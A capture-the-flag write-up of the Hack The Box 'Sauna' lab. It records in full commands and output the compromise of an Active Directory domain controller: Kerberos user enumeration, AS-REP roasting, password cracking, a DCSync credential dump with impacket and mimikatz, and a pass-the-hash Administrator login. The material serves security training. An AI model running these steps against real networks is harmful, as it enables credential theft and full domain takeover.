

## RUSTSCAN
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Egotistical Bank :: Home
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2023-01-09 21:38:46Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49677/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49695/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49722/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
* * *
## DNS
└─# dig any EGOTISTICAL-BANK.LOCAL @10.10.10.175

; <<>> DiG 9.18.8-1-Debian <<>> any EGOTISTICAL-BANK.LOCAL @10.10.10.175
;; global options: +cmd
;; Got answer:
;; WARNING: .local is reserved for Multicast DNS
;; You are currently testing what happens when an mDNS query is leaked to DNS
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 22035
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 4, AUTHORITY: 0, ADDITIONAL: 4

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;EGOTISTICAL-BANK.LOCAL.                IN      ANY

;; ANSWER SECTION:
EGOTISTICAL-BANK.LOCAL. 600     IN      A       10.10.10.175
EGOTISTICAL-BANK.LOCAL. 3600    IN      NS      sauna.EGOTISTICAL-BANK.LOCAL.
EGOTISTICAL-BANK.LOCAL. 3600    IN      SOA     sauna.EGOTISTICAL-BANK.LOCAL. hostmaster.EGOTISTICAL-BANK.LOCAL. 48 900 600 86400 3600
EGOTISTICAL-BANK.LOCAL. 600     IN      AAAA    dead:beef::d82a:5af8:762a:f639

;; ADDITIONAL SECTION:
sauna.EGOTISTICAL-BANK.LOCAL. 3600 IN   A       10.10.10.175
sauna.EGOTISTICAL-BANK.LOCAL. 3600 IN   AAAA    dead:beef::44f9:b7cc:b9fa:7b3a
sauna.EGOTISTICAL-BANK.LOCAL. 3600 IN   AAAA    dead:beef::115

;; Query time: 29 msec
;; SERVER: 10.10.10.175#53(10.10.10.175) (TCP)
;; WHEN: Mon Jan 09 15:41:54 CET 2023
;; MSG SIZE  rcvd: 234

* * *
## SMB
 =======================================================
|    Domain Information via LDAP for EGOTISTICALBANK    |
 =======================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: EGOTISTICAL-BANK.LOCAL

 ==============================================================
|    Domain Information via SMB session for EGOTISTICALBANK    |
 ==============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: SAUNA
NetBIOS domain name: EGOTISTICALBANK
DNS domain: EGOTISTICAL-BANK.LOCAL
FQDN: SAUNA.EGOTISTICAL-BANK.LOCAL
Derived membership: domain member
Derived domain: EGOTISTICALBANK

 ======================================================
|    Domain Information via RPC for EGOTISTICALBANK    |
 ======================================================
[+] Domain: EGOTISTICALBANK
[+] Domain SID: S-1-5-21-2966785786-3096785034-1186376766
[+] Membership: domain member

 ==================================================
|    OS Information via RPC for EGOTISTICALBANK    |
 ==================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016
OS version: '10.0'
OS release: '1809'
OS build: '17763'
Native OS: not supported
Native LAN manager: not supported
Platform id: null
Server type: null
Server type string: null

* * *
## HTTP
So far no subdomain nor juicy web directories but we can find their team:
http://sauna.htb/about.html#team

Fergus Smith
Hugo Bear
Steven Kerb
Shaun Coins
Bowie Taylor
Sophie Driver

Now we need to know what is the username structure...
* * *
## KERBEROS
We have an initial list of users from the website, we should try to bruteforce kerberos with Kerbrute or Metasploit and check what we can find...

msf6 auxiliary(gather/kerberos_enumusers) > run
[*] Running module against 10.10.10.175
[*] Using domain: EGOTISTICAL-BANK.LOCAL - 10.10.10.175:88...
[-] 10.10.10.175:88 - User: "guest" account disabled or locked out
[+] 10.10.10.175:88 - User: "administrator" is present
[+] 10.10.10.175:88 - User: "hsmith" is present
[+] 10.10.10.175:88 - User: "fsmith" does not require preauthentication. Hash: $krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:54c9504cadf71fc8a23e2e4f478aa4d6$bdb36f74a0ac33221712238bb57fa6c6ffe733d56a7f00c269737f70cac6dde0e863e0d2b8a4ac2423a9c3bd09e1fdcdb92c17cb8de6e03f75e28e8f651b54c22223544f3a5a1d4e637d20153d486c82efbcbc795c01974319818eb2bc81be8c02df498bb9b36b6479929deb8d9791b6bba19ca8c6f593ebf2277181d38da656a606b30ae768665f3cc61640ba9541e265c6ad43a46464082fc091ee4c6b83bf257fbae7fd61e86f09af4a62049faca840e712897e5cba748ccacb94f5cca5df18843cb47854d032f80aaea3e21ff5860b041bd8383a4d6737711124f38677649c0a4a3f03f7939ef619b44fc79e093a7be6de3afe3bdd8a71390215621cd2

Good we found some users adn MSF found us already a possible Kerberoastable user that don't require pre-auth with Kerberos so we don't need to run manually Impacket-getNPUsers

Now we can crack the hash with John/hashcat:
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# john fsmith.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
**Thestrokes23     ( $krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL)**
1g 0:00:00:03 DONE (2023-01-10 09:24) 0.3105g/s 3273Kp/s 3273Kc/s 3273KC/s Tiffani1432..Thanongsuk_police
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

* * *
## SMB as FSMITH
Now we can enumerate again SMB with a proper user to see if we can find more informations about smb shares, users and so on:

 ==================================
|    Users via RPC on sauna.htb    |
 ==================================
[*] Enumerating users via 'querydispinfo'
[+] Found 6 user(s) via 'querydispinfo'
[*] Enumerating users via 'enumdomusers'
[+] Found 6 user(s) via 'enumdomusers'
[+] After merging user results we have 6 user(s) total:
'1103':
  username: HSmith
  name: Hugo Smith
  acb: '0x00000210'
  description: (null)
'1105':
  username: FSmith
  name: Fergus Smith
  acb: '0x00010210'
  description: (null)
'1108':
  username: svc_loanmgr
  name: L Manager
  acb: '0x00000210'
  description: (null)
'500':
  username: Administrator
  name: (null)
  acb: '0x00000210'
  description: Built-in account for administering the computer/domain
'501':
  username: Guest
  name: (null)
  acb: '0x00000215'
  description: Built-in account for guest access to the computer/domain
'502':
  username: krbtgt
  name: (null)
  acb: '0x00020011'
  description: Key Distribution Center Service Account
   ===================================
|    Shares via RPC on sauna.htb    |
 ===================================
[*] Enumerating shares
[+] Found 7 share(s):
ADMIN$:
  comment: Remote Admin
  type: Disk
C$:
  comment: Default share
  type: Disk
IPC$:
  comment: Remote IPC
  type: IPC
NETLOGON:
  comment: Logon server share
  type: Disk
RICOH Aficio SP 8300DN PCL 6:
  comment: We cant print money
  type: Printer
SYSVOL:
  comment: Logon server share
  type: Disk
print$:
  comment: Printer Drivers
  type: Disk
[*] Testing share ADMIN$
[+] Mapping: DENIED, Listing: N/A
[*] Testing share C$
[+] Mapping: DENIED, Listing: N/A
[*] Testing share IPC$
[+] Mapping: OK, Listing: NOT SUPPORTED
[*] Testing share NETLOGON
[+] Mapping: OK, Listing: OK
[*] Testing share RICOH Aficio SP 8300DN PCL 6
[-] Could not check share: STATUS_OBJECT_NAME_NOT_FOUND
[*] Testing share SYSVOL
[+] Mapping: OK, Listing: OK
[*] Testing share print$
[+] Mapping: OK, Listing: OK

Apparently no good shares, there is only a printer share but i doubt we will find something juicy. Let's move on to other services.
* * *
## WINRM
Loggin into Evil-Winrm with Fsmith users and password we get our first access to the machine:
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# evil-winrm -i sauna.htb -u fsmith -p Thestrokes23

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\FSmith\Documents>

Poking around we get our first flag:

*Evil-WinRM* PS C:\Users\FSmith\Desktop> ls

    Directory: C:\Users\FSmith\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        1/10/2023   6:43 AM             34 user.txt

*Evil-WinRM* PS C:\Users\FSmith\Desktop> type user.txt
0e94179d01fc7f2c734a9c55eef1a541
*Evil-WinRM* PS C:\Users\FSmith\Desktop>
* * *
## PRIV ESC
Logged in users:
*Evil-WinRM* PS C:\Users> ls

    Directory: C:\Users

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        1/25/2020   1:05 PM                Administrator
d-----        1/23/2020   9:52 AM                FSmith
d-r---        1/22/2020   9:32 PM                Public
d-----        1/24/2020   4:05 PM                svc_loanmgr

And checking the user permissions fsmith can add computer to domain:
*Evil-WinRM* PS C:\Users> whoami /all

USER INFORMATION
----------------

User Name              SID
====================== ==============================================
egotisticalbank\fsmith S-1-5-21-2966785786-3096785034-1186376766-1105

GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

USER CLAIMS INFORMATION
-----------------------

Seems like mimikatz is not working right now cause we get a error and propbably LSASS dump protection is in place, even loading mimisrv.sys driver is not helping us to bypass it which i guess we need to stick to the plan an dump values from AD and analyze it with Bloodhound as tags tells.

From the picture we see that svc_loadmgr have DCSync rights on the domain so I think we should try to harvest for credentials in the Sauna VM maybe we can find somethinng with Winpeas:

And baam Winpeas got us some credentials from autologon:
ÉÍÍÍÍÍÍÍÍÍ͹ Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  EGOTISTICALBANK
    DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
    DefaultPassword               :  Moneymakestheworldgoround!
	
Now we can switch to svc_loanmanager and do a DCSync escalation process and dump all Hashes with Mimikatz...

Ok seems like svc can't psremote or winrm to the sauna machine. Nor runas helped so what we can do is instead drying to dump dcsync hashes locally on Saunna machine with Mimikatz (which BTW will most likely fail) we can do it remotely with impacketer's secret dump:
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync#exploit-remotely

Edit: Winrm is working for the svc account the problem is that I was relying on this:
    DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
	but checking back in Bloodhound the right username was 
SVC_LOANMGR@EGOTISTICAL-BANK.LOCAL

So now we can either upload mimikatz and to a DCsync via that way or remotely from our machine with impacketer...

**Packeter way:**
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# impacket-secretsdump -just-dc EGOTISTICAL-BANK.LOCAL/SVC_LOANMGR@sauna.htb -outputfile sauna_dcsync.txt
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:aad3b435b51404eeaad3b435b51404ee:9cb31797c39a9b170b04058ba2bba48c:::
SAUNA$:1000:aad3b435b51404eeaad3b435b51404ee:ba7bddf5612255ff31d54f74a3723c0c:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:42ee4a7abee32410f470fed37ae9660535ac56eeb73928ec783b015d623fc657
Administrator:aes128-cts-hmac-sha1-96:a9f3769c592a8a231c3c972c4050be4e
Administrator:des-cbc-md5:fb8f321c64cea87f
krbtgt:aes256-cts-hmac-sha1-96:83c18194bf8bd3949d4d0d94584b868b9d5f2a54d3d6f3012fe0921585519f24
krbtgt:aes128-cts-hmac-sha1-96:c824894df4c4c621394c079b42032fa9
krbtgt:des-cbc-md5:c170d5dc3edfc1d9
EGOTISTICAL-BANK.LOCAL\HSmith:aes256-cts-hmac-sha1-96:5875ff00ac5e82869de5143417dc51e2a7acefae665f50ed840a112f15963324
EGOTISTICAL-BANK.LOCAL\HSmith:aes128-cts-hmac-sha1-96:909929b037d273e6a8828c362faa59e9
EGOTISTICAL-BANK.LOCAL\HSmith:des-cbc-md5:1c73b99168d3f8c7
EGOTISTICAL-BANK.LOCAL\FSmith:aes256-cts-hmac-sha1-96:8bb69cf20ac8e4dddb4b8065d6d622ec805848922026586878422af67ebd61e2
EGOTISTICAL-BANK.LOCAL\FSmith:aes128-cts-hmac-sha1-96:6c6b07440ed43f8d15e671846d5b843b
EGOTISTICAL-BANK.LOCAL\FSmith:des-cbc-md5:b50e02ab0d85f76b
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes256-cts-hmac-sha1-96:6f7fd4e71acd990a534bf98df1cb8be43cb476b00a8b4495e2538cff2efaacba
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes128-cts-hmac-sha1-96:8ea32a31a1e22cb272870d79ca6d972c
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:des-cbc-md5:2a896d16c28cf4a2
SAUNA$:aes256-cts-hmac-sha1-96:f54dbe25a0652ad3e002edbc0e42928b8f79aaeadb672275bd874b480c813f33
SAUNA$:aes128-cts-hmac-sha1-96:77957aea209195f55f1fb24c33031e3c
SAUNA$:des-cbc-md5:e5866ebc924a52b3

**Mimikatz way:**
*Evil-WinRM* PS C:\temp> ./mimikatz.exe "lsadump::dcsync /user:EGOTISTICALBANK\Administrator" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::dcsync /user:EGOTISTICALBANK\Administrator
[DC] 'EGOTISTICAL-BANK.LOCAL' will be the domain
[DC] 'SAUNA.EGOTISTICAL-BANK.LOCAL' will be the DC server
[DC] 'EGOTISTICALBANK\Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 7/26/2021 8:16:16 AM
Object Security ID   : S-1-5-21-2966785786-3096785034-1186376766-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 823452073d75b9d1cf70ebdf86c7f98e
    ntlm- 0: 823452073d75b9d1cf70ebdf86c7f98e
    ntlm- 1: d9485863c1e9e05851aa40cbb4ab9dff
    ntlm- 2: 7facdc498ed1680c4fd1448319a8c04f
    lm  - 0: 365ca60e4aba3e9a71d78a3912caf35c
    lm  - 1: 7af65ae5e7103761ae828523c7713031

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 716dbadeed0e537580d5f8fb28780d44

* Primary:Kerberos-Newer-Keys *
    Default Salt : EGOTISTICAL-BANK.LOCALAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 42ee4a7abee32410f470fed37ae9660535ac56eeb73928ec783b015d623fc657
      aes128_hmac       (4096) : a9f3769c592a8a231c3c972c4050be4e
      des_cbc_md5       (4096) : fb8f321c64cea87f
    OldCredentials
      aes256_hmac       (4096) : 987e26bb845e57df4c7301753f6cb53fcf993e1af692d08fd07de74f041bf031
      aes128_hmac       (4096) : 145e4d0e4a6600b7ec0ece74997651d0
      des_cbc_md5       (4096) : 19d5f15d689b1ce5
    OlderCredentials
      aes256_hmac       (4096) : 9637f48fa06f6eea485d26cd297076c5507877df32e4a47497f360106b3c95ef
      aes128_hmac       (4096) : 52c02b864f61f427d6ed0b22639849df
      des_cbc_md5       (4096) : d9379d13f7c15d1c

* Primary:Kerberos *
    Default Salt : EGOTISTICAL-BANK.LOCALAdministrator
    Credentials
      des_cbc_md5       : fb8f321c64cea87f
    OldCredentials
      des_cbc_md5       : 19d5f15d689b1ce5

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  b4a06d28f92506a3a336d97a66b310fa
    02  71efaf133c578bd7428bd2e1eca5a044
    03  974acf4f67e4f609eb032fd9a72e8714
    04  b4a06d28f92506a3a336d97a66b310fa
    05  79ba561a664d78d6242748774e8475c5
    06  f1188d8ed0ca1998ae828a60a8c6ac29
    07  801ddc727db9fa3de98993d88a9ffa8b
    08  a779e05da837dd2d303973304869ec0f
    09  ac2c01846aebce4cbd4e3ec69b47a65d
    10  6d863d6ae06c3addc49b7a453afe6fa0
    11  a779e05da837dd2d303973304869ec0f
    12  6676b9fdd4aa7f298f1ada64c044c230
    13  5a01167d750636d66e5602db9aece9b7
    14  f702282bd343c2fee7b98deac8950390
    15  a099aa3c81f1affeba59d79a6533f60d
    16  4bae84b8f0b0306788ff9bda4acb3bd4
    17  976d547fb9e04b0ac5ec60508c275da1
    18  50c302b71d0e08a1a2be14b56225645f
    19  edb19e08653443695f6d3599e0a6bddf
    20  c497465ddc6e2fc14cb0359d0d5de7f8
    21  2ed0b4b57196fb190a66224b2b17029f
    22  37d03051ae1cd6046975948564ab01fa
    23  d4c7554fe1beb0ed712f50cfec470471
    24  8df495fe69cdce409b9f04ea04289b9e
    25  40788044be982310920cc0740687fefd
    26  db7f66f1f1a8f46274d20cfdda5b6e1c
    27  d70226ec52f1ef198c2e1e955a1da9b6
    28  abdd681f875a9b3f3a50b36e51692a2c
    29  dcd140a2ce2bf70fed7ac0e2b60d0dee

mimikatz(commandline) # exit
Bye!

Now we can pass the hash with Evilwinrm
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# evil-winrm -i sauna.htb -u Administrator -H '823452073d75b9d1cf70ebdf86c7f98e'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls

    Directory: C:\Users\Administrator\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        1/10/2023   6:43 AM             34 root.txt

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root
Cannot find path 'C:\Users\Administrator\Desktop\root' because it does not exist.
At line:1 char:1
+ type root
+ ~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (C:\Users\Administrator\Desktop\root:String) [Get-Content], ItemNotFoundException
    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.GetContentCommand
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
728b2f1e1401bdf389205ad5fa49fe13
*Evil-WinRM* PS C:\Users\Administrator\Desktop>

* * *